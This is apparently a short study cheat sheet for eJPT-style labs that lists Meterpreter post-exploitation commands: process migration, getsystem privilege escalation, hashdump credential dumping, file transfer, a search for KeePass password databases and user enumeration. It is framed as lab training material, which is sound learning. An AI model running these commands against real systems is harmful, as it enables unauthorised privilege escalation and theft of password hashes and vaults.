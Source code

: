 ```
# Stabilize
migrate <PID>

# Priv/escalation (Windows)
load priv
getsystem
hashdump

# Files
pwd && ls
download "C:\\Windows\\System32\\drivers\\etc\\hosts"
upload /tmp/tool.exe "C:\\Users\\Public\\tool.exe"
search -d "C:\\Users" -f *.kdbx -r

# Shell (exit to return)
shell
exit

# Post module (example)
background
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

## Summary
Meterpreter Fundamentals centers on getting and effectively using a Meterpreter session for post-exploitation. You learn to set up a handler, manage sessions, enumerate hosts and networks, stabilize access by migrating processes, attempt privilege escalation, interact with the filesystem, and leverage post modules. The commands above provide a concise, copy-paste workflow appropriate for eJPT-style labs, with an emphasis on stability, minimal footprint, and practical enumeration steps.